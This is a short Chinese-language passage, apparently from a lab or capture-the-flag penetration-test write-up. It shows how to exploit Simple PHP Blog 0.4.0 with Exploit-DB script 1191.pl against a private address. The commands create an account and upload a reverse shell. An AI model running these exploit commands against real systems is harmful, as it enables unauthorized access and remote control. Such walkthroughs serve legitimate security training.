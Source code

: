 [![](assets/1703831504-140054874f3c010dc100cbfaacae7b3d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231227164015-8ec31bba-a493-1.png)

> 拿到 www-data 权限

### <4>Simple PHP 框架漏洞利用（exp）

1.  基于`whatweb`的识别，漏洞库找该 cmd 的 exp
2.  [Simple PHP Blog 0.4.0 - Multiple Remote s - PHP webapps Exploit|1191.pl](https://www.exploit-db.com/exploits/1191)
3.  用生成新用户名密码`wsec/wsec`登录`/blog`，可以上传反弹 shell 到 `/blog/images`
    
    ```bash
    searchsploit Simple PHP Blog 0.4.0 -m 1191
    ./1191.pl -h http://10.10.10.100/blog -e 2
    ./1191.pl -h http://10.10.10.100/blog -e 3 -U wsec -P wsec
    ```
    

